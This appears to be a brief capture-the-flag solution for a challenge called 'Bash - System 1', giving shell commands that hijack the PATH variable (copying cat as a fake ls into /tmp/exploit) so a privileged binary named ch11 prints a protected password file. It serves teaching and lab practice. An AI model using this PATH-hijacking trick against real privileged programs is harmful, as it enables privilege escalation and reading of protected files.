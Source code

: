 # Challenge Bash - System 1

## Todo : 

execute the compilated ch11 to Show the password

### Note :

  - alias and export not working in this case 

## Exploit :

mkdir -pv /tmp/exploit

cp -avr $(which cat) /tmp/exploit/ls

export PATH=/tmp/exploit

./ch11
